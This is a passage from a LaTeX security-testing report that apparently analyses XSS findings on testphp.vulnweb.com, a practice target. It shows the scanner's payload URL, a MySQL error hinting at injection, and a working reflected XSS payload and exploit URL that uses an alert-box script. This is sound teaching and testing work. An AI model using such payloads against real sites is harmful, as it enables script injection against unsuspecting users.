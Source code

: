 Analyzing the report we see 16 XSS vectors. The web application allows users to list products filtering for a category. The parameter payload for the URL \textbf{http://testphp.vulnweb.com/listproducts.php} looks like this:

\begin{verbatim}
?cat=%22.$.htaccess.aspx--%3E%22%3E%27%3E%27%22%3Csfi000107v352075%3E
\end{verbatim}

Navigating to that URL renders a MySQL exception, which is a hint that we may inject code:

\begin{verbatim}
Error: You have an error in your SQL syntax; check the manual that 
corresponds to your MySQL server version for the right syntax to 
use near '"' at line 1 Warning: mysql_fetch_array() expects 
parameter 1 to be resource, boolean given in 
/hj/var/www/listproducts.php on line 74 
\end{verbatim}

After some manual playing with this payload we found a working reflected XSS injection using the following payload:

\begin{lstlisting}[breaklines]
?cat=".$.htaccess.aspx-->">'>'"<script>alert('OK')</script>
\end{lstlisting}

Here is a link to the full working exploit URL: 
 \href{http://testphp.vulnweb.com/listproducts.php?cat=".$.htaccess.aspx-->">'>'"<script>alert('OK')</script>}{Link}\\

Figure \ref{fig:ui5} shows a screenshot of the successful exploit.

\begin{figure}[H]
	\centering
	\includegraphics[width=12cm,keepaspectratio=true]{pictures/ui5.png}
	\caption{
		Successful exploit of a reflected XSS vector
	}
	\label{fig:ui5}
\end{figure}

